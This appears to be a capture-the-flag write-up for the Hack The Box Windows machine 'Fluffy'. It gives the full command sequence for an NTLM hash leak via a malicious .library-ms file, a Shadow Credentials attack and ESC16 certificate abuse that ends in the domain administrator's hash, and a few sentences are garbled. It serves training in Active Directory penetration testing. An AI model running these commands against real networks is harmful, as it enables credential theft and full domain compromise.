# Fluffy

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

**🏁 Summary of Attack Chain**


| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `j.fleischman` | **SMB Enumeration** | Used `smbmap` to enumerate SMB shares with the initial user credentials. Discovered the `IT` share, which had read and write permissions. |
| 2 | `p.agila` | **CVE-2025-24071 (NTLM Hash Leak)** | Uploaded a malicious `.library-ms` file to the `IT` share. When a user accessed the file, their NTLMv2 hash was leaked and captured using `Responder`. The hash was then cracked with `John the Ripper`, revealing the password `promXXXXXXXXXXX`. This provided access to the user `p.agila`. |
| 3 | `winrm_svc` | **Shadow Credentials** | A Bloodhound analysis showed that `p.agila` had `GenericWrite` permissions on `SERVICE ACCOUNTS` group members like `winrm_svc`. A shadow credential attack was performed on `winrm_svc`, allowing the attacker to get its NT hash and gain a WinRM shell. |
| 4 | `administrator` | **ESC16 Vulnerability** | A vulnerable Certificate Authority was identified. The `userPrincipalName` of the `ca_svc` account was changed to `administrator`, and a certificate was requested for `ca_svc` with the new UPN. This certificate was then used to authenticate as the `administrator` and retrieve the NT hash, which provided root access to the domain controller. |


#### Initial Access & NTLM Hash Leak


The initial foothold began with the provided credentials for the user j.fleischman. A standard Nmap scan of the target machine (Fluffy.htb) revealed several open ports, including SMB (445) and LDAP (389), indicating an Active Directory environment.

To investigate the SMB shares, I used smbmap with the provided credentials:

Bash

```
smbmap -H 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```


The scan showed that the IT share had READ, WRITE permissions. Upon listing the contents of this share with smbclient, several files were found, including a PDF named Upgrade_Notice.pdf. A vulnerability search related to these files led to CVE-2025-24071, an NTLM hash leak vulnerability involving .library-ms files.

I used a public proof-of-concept (PoC) to create a malicious .library-ms file and an associated ZIP file. The exploit was configured to direct hash requests to my attacking machine. I then uploaded these files to the IT share and started Responder to capture any incoming NTLM hashes.

Bash

**Uploading the malicious files**

```
smbclient //10.10.11.69/IT -U j.fleischman
smb: \> put docs.library-ms
smb: \> put exploit.zip
```



**Running Responder on my machine**

```
responder -I tun0 -wvF
```


Soon after, a user on the network accessed the malicious file, and Responder captured an NTLMv2 hash for the user p.agila. The hash was then cracked using john with the rockyou.txt wordlist, revealing the password: promXXXXXXXXXXX.


# Privilege Escalation to winrm_svc

With the new credentials for p.agila, I used Bloodhound to analyze the Active Directory environment for potential privilege escalation paths.

Bash

```
bloodhound-python -u 'p.agila' -p 'promXXXXXXXXXXX' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```

The analysis showed that p.agila was a member of the SERVICE ACCOUNTS group, which had GenericWrite permissions on several service accounts, including winrm_svc. This is a classic Shadow Credentials attack vector.



Note that p.agilayou can add yourself to servicethe user group





Then the group has write permissions servicefor the userCA_SVC



Using certipy, I performed a shadow credential attack on the winrm_svc account to get its NTLM hash.

Bash

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
```



This gave me the NTLM hash for winrm_svc, which I then used with evil-winrm to get a shell on the domain controller.

Bash

```
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '<winrm_svc_hash>'
```



This provided access to the user.txt flag.


####Domain Administrator Compromise via ESC16


Further enumeration with certipy revealed a critical vulnerability on the Certificate Authority (CA), specifically ESC16, which allows an attacker to exploit a misconfigured CA to impersonate other users.

Bash

```
certipy find -username ca_svc -hashes :<ca_svc_hash> -dc-ip 10.10.11.69 -vulnerable
```

The exploitation of ESC16 involved a series of steps:

I temporarily changed the userPrincipalName (UPN) of the ca_svc account to administrator.

I requested a certificate for ca_svc using the new administrator UPN.

I reverted the ca_svc account's UPN back to its original value.

Finally, I used the forged certificate to authenticate as the administrator and retrieve the domain administrator's NTLM hash.

Here's the sequence of commands:

Bash

**1. Update UPN of ca_svc to administrator**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
```



**2. Request a certificate as the administrator**

```
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```



**3. Restore the UPN of ca_svc**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```



**4. Authenticate and get the administrator hash**

```
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```



The final command successfully yielded the NTLM hash for the administrator, which can be used for a full domain compromise.




**Pwned! Fluffy**